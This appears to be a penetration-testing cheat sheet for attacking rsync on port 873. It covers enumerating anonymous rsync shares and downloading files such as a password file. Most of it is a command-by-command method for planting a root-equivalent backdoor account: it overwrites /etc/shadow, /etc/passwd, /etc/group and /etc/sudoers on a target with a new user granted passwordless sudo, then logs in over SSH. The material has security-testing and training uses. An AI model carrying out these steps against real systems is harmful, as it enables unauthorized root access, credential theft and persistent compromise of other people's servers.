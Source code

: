 ```yaml
---
description: >-
  Rsync is a utility for transferring and synchronizing files between two
  servers (usually Linux).
---
```


# 873 - RSYNC

example of Rsyncd.conf file that allows anonymous root access to the entire file system:

```text
motd file = /etc/Rsyncd.motd
lock file = /var/run/Rsync.lock
log file = /var/log/Rsyncd.log
pid file = /var/run/Rsyncd.pid

[files]
path = /
comment = Remote file share.
uid = 0
gid = 0
read only = no
list = yes
```

## enumeration

`nmap -p 873 192.168.0.1`

List directory

```text
rsync 192.168.1.171::
```

list directory ipv6 

```text
rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/var/
```

List sub directory contents

```text
rsync 192.168.1.171::files
```

List directories and files recursively

```text
rsync -r 192.168.1.171::files/tmp/
```

Download files

```text
rsync 192.168.1.171::files/home/test/mypassword.txt .
```

Download folders

```text
rsync -r 192.168.1.171::files/home/test/
```

Upload files

```text
rsync ./myfile.txt 192.168.1.171::files/home/test
```

Upload folders

```text
rsync -r ./myfolder 192.168.1.171::files/home/test
```

### Creating a New User through Rsync

If Rsync is configured to run as root and is anonymously accessible, it’s possible to create a new privileged Linux user by modifying the shadow, passwd, group, and sudoers files directly.

Note: The same general approach can be used for any vulnerability that provides full write access to the OS. A few other examples include NFS exports and uploading web shells running as root.

**Creating the Home Directory**  
Let’s start by creating our new user’s home directory.

```text
# Create local work directories
mkdir demo
mkdir backup
cd demo

# Create new user’s home directory
mkdir ./myuser
rsync -r ./myuser 192.168.1.171::files/home
```

**Create the Shadow File Entry**  
The /etc/shadow file is the Linux password file that contains user information such as home directories and encrypted passwords. It is only accessible by root.

To inject a new user entry via Rsync you’ll have to:

1. Generate a password.
2. Create the line to inject.
3. Download /etc/shadow. \(and backup\)
4. Append the new user to the end of /etc/shadow
5. Upload / Overwrite the existing /etc/shadow

Note: Make sure to create a new user that doesn’t already exist on the system. ![&#x1F609;](https://s.w.org/images/core/emoji/13.0.0/svg/1f609.svg)

Create Encrypted Password:

```text
openssl passwd -crypt password123
```

Add New User Entry to /etc/shadow:

```text
rsync -R 192.168.1.171::files/etc/shadow .
cp ./etc/shadow ../backup
echo "myuser:MjHKz4C0Z0VCI:17861:0:99999:7:::" >> ./etc/shadow
rsync ./etc/shadow 192.168.1.171::files/etc/
```

**Create Passwd File Entry**  
The /etc/passwd file is used to keep track of registered users that have access to the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/passwd. \(and back it up so you can restore state later\)
3. Append the new user entry to the end of passwd.
4. Upload / Overwrite the existing /etc/passwd

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/group file. ![&#x1F642;](https://s.w.org/images/core/emoji/13.0.0/svg/1f642.svg) In this case the UID/GUID are 1021.

Add New User Entry to /etc/passwd:

```text
rsync -R 192.168.1.171::files/etc/passwd .
cp ./etc/passwd ../backup
echo "myuser:x:1021:1021::/home/myuser:/bin/bash" >> ./etc/passwd
rsync ./etc/passwd 192.168.1.171::files/etc/
```

**Create the Group File Entry**  
The /etc/group file is used to keep track of registered group information on the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/group. \(and backup, just in case\)
3. Append the new user entry to the end of group.
4. Upload / Overwrite the existing /etc/group file.

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/passwd file. ![&#x1F642;](https://s.w.org/images/core/emoji/13.0.0/svg/1f642.svg) In this case the UID/GUID are 1021.

Add New User Entry to /etc/group:

```text
rsync -R 192.168.1.171::files/etc/group .
cp ./etc/group ../backup
echo "myuser:x:1021:" >> ./etc/group
rsync ./etc/group 192.168.1.171::files/etc/
```

**Create Sudoers File Entry**  
The /etc/sudoers file contains a list of users that are allowed to run commands as root using the sudo command. It can only be read by root. We are going to modify it to allow the new user to execute any command through sudo.

To inject a entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/sudoers. \(and backup, just in case\)
3. Append the new user entry to the end of sudoers.
4. Upload / Overwrite the existing /etc/sudoers file.

Add New User Entry to /etc/sudoers:

```text
rsync -R 192.168.1.171::files/etc/sudoers .
cp ./etc/sudoers ../backup
echo "myuser ALL=(ALL) NOPASSWD:ALL" >> ./etc/sudoers   
rsync ./etc/sudoers 192.168.1.171::files/etc/
```

Now you can simply log into the server via SSH using your newly created user and sudo sh to root!

source:

[https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/](https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/)

